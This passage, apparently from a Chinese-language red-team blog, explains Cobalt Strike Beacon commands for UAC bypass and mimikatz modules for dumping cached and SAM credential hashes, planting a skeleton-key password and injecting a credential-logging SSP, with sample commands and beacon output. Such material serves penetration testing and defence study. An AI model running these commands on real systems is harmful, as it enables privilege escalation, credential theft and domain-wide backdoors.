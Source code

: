 常用的有以下几种：

**elevate uac-token-duplication [listener]** - This command spawns a temporary process with elevated rights and inject a payload stage into it. This attack uses a UAC-loophole that allows a non-elevated process to launch an arbitrary process with a token stolen from an elevated process. This loophole requires the attack to remove several rights assigned to the elevated token. The abilities of your new session will reflect these restricted rights. If Always Notify is at its highest setting, this attack requires that an elevated process is already running in the current desktop session (as the same user). This attack works on Windows 7 and Windows 10 prior to the November 2018 update.

![image-20240228171453255](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281714393.png)

**runasadmin uac-token-duplication [command]** - This is the same attack described above, but this variant runs a command of your choosing in an elevated context.

**runasadmin uac-cmstplua [command]** - This command attempta to bypass UAC and run a command in an elevated context. This attack relies on a COM object that automatically elevates from certain process contexts (Microsoft signed, lives in c:\windows\*).

### Mimikatz

在 Beacon 中集成了 mimikatz ，mimikatz 执行命令有三种形式：

- `mimikatz [module::command] <args>` 运行 mimikatz 命令
- `mimikatz [!module::command] <args>` 强制提升到 SYSTEM 权限再运行命令，因为一些命令只有在 SYSTEM 身份下才能被运行。
- `mimikatz [@module::command] <args>` 使用当前 Beacon 的访问令牌运行 mimikatz 命令

下面是一些`mimikatz`命令。

- `!lsadump::cache` 获取缓存凭证，默认情况下 Windows 会缓存最近10个密码哈希
- `!lsadump::sam` 获取本地账户密码哈希，该命令与 hashdump 比较类似
- `misc::cmd` 如果注册表中禁用了 CMD ，就重新启用它
- `!misc::memssp` 注入恶意的 Windows SSP 来记录本地身份验证凭据，这个凭证存储在“C:\windows\system32\mimilsa.log”中
- `misc::skeleton` 该命令仅限域内使用。该命令会给所有域内用户添加一个相同的密码，域内所有的用户都可以使用这个密码进行认证，同时原始密码也可以使用,其原理是对 lsass.exe 进行注入，重启后会失效。
- `process::suspend [pid]` 挂起某个进程，但是不结束它
- `process::resume [pid]` 恢复挂起的进程

以上的这些只是`mimikatz`能做事情的一小部分，下面看看`!misc::memssp`的使用。

```
mimikatz !misc::memssp
cd C:\Windows\system32
shell dir mimilsa.log
shell type mimilsa.log
```

详细运行过程：

首先运行`mimikatz !misc::memssp`

```
beacon> mimikatz !misc::memssp
[*] Tasked beacon to run mimikatz's !misc::memssp command
[+] host called home, sent: 1006151 bytes
[+] received output:
Injected =)
```
